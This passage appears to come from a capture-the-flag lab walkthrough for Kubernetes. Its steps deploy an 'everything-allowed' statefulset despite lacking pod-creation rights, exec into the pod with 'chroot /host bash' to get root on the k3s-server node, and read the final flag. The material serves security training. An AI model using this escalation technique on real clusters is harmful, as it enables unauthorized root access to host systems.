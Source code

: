 5. Deploy the `statefulset`: 

``` bash
kubectl apply -f /home/user/Downloads/finalspace/badpod.yaml
```

6. Verify the pods got created (even though we have no permissions to create pods) by typing: 

``` bash
kubectl get pods
```

You will see two pods.

7. `exec` into one of the pods to obtain root access to the `k3s-server` cluster. 

``` bash
kubectl exec -it everything-allowed-exec-statefulset-0 -- chroot /host bash
```

You land inside the `k3s-server` as the root user.

8.  From inside the `k3s-server`, run the following command to retrieve the last flag: 

```bash
cat /root/flag
```

You will successfully obtain the last flag!
